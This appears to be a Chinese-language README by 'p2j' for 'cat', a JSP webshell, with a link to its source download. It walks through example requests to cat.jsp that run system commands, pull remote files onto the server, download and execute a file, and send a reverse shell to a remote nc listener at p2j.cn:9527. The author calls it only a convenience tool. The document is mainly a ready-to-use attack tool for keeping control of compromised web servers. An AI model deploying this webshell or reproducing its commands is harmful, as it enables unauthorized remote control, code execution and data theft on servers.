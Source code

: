 cat小工具  
Author: p2j  

我觉得这都算不上什么webshell了，写这个只是为了简化一些操作。cat提供了简单的的文件遍历、管理、命令执行、反弹shell、文件下载、自动下载并执行这么几个小功能。

web界面只是一个简单的文件目录浏览功能和文件下载功能：  

![img](1.jpg)  

点击文件名可以编辑对应的文件，新建文件也可以在这里进行File地址写上需要编辑的文件绝对路径就行了：  

![img](2.jpg)   

执行系统命令会比较麻烦，因为需要自己写参数了：  
![img](3.jpg)  

    请求：http://localhost:8080/Struts2/cat.jsp?action=exec&cmd=ifconfig  

参数:  

    action=exec  

    cmd=需要执行的命令。  

文件下载分为远程文件下载和本地文件下载。本地文件下载直接点击下载即可从服务器上下载对应的文件。而远程文件下载的则需要继续以参数的方式请求：  

![img](4.jpg) 

    请求：http://localhost:8080/Struts2/cat.jsp?action=downloadL&url=http://www.baidu.com/img/bdlogo.png&path=bdlogo.png  

参数：  

    action=downloadL

    url=需要下载的文件的URL地址

    path=文件保存的绝对路径，注意如果只写文件名会下载到当前运行环境的目录下(比如tomcat会下载到tomcat的bin目录)。

本地文件下载如遇到目录则自动打包成zip。  

自动下载并执行，这个功能实际上是为了简化操作。下载某个文件然后可以用命令去调用它。这个命令如果能正常执行完是会有回显的。并且下载的文件会在命令执行结束后自动删除掉。  

![img](5.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=auto&url=http://www.baidu.com/img/bdlogo.png&fileName=bdlogo.png&cmd=cat%20bdlogo.png

参数：  

    action=auto

    url=需要下载的文件的URL地址

    fileName=文件名

    cmd=需要执行的系统命令

反弹shell，这里实现的仅仅是一个系统执行命令的入口反弹，而非反弹一个具体的文件流。即给远程监听的nc反弹一个能够执行命令的入口。  

![img](6.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=shell&host=p2j.cn&port=9527

参数：  

    action=shell

    host=远程IP

    port=远程监听的端口


源码下载：[Cat.zip](http://pan.baidu.com/s/1hqmWGFM)
[url](http://p2j.cn/?p=1533)